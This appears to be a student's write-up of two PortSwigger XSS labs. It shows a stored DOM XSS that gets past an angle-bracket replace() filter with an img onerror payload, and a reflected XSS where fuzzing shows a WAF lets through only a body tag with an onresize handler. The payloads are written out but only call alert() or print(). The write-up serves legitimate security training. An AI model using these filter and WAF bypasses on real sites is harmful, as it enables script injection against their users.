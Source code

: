 This lab demonstrates a stored DOM vulnerability in the blog comment functionality.

```
GET /post/comment?postId=9 HTTP/1.1
{
    "avatar":"",
    "website":"https://www.test.com",
    "date":"2021-11-21T22:51:20.697595457Z",
    "body":"test",
    "author":"test"
}
```

```
<script>alert(0)</script>
```

Website encoded first <> angle brackets. If we add <> at the beginning we can bypass it. But we can not. We can see the cause in the response.

```
"body":"<><script>alert(0)<\/script>",
"author":"<><script>alert(0)<\/script>"
```

JS added \ before /. So we can not use this payload. Try another one.

```
<><img src=1 onerror=alert(1)>
```

> In an attempt to prevent XSS, the website uses the JavaScript replace() function to encode angle brackets.

### Lab: Reflected XSS into HTML context with most tags and attributes blocked

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

There is a WAF. It blocks most of tags and attributes.

**XSS tags list ->** https://portswigger.net/web-security/cross-site-scripting/cheat-sheet **-> Copy tags to clipboard**

**Sniper attack with xss tags list ->**&#x20;

`GET /?search=<§§> HTTP/1.1`

Just body tag is allowed.

**XSS events list -> Choose body tag ->** https://portswigger.net/web-security/cross-site-scripting/cheat-sheet **-> Copy events to clipboard**

**Sniper attack with xss events list ->**&#x20;

`GET /?search=<body%20§§=1> HTTP/1.1`

Just onresize attribute is allowed.

```
<body onresize="print()">
```
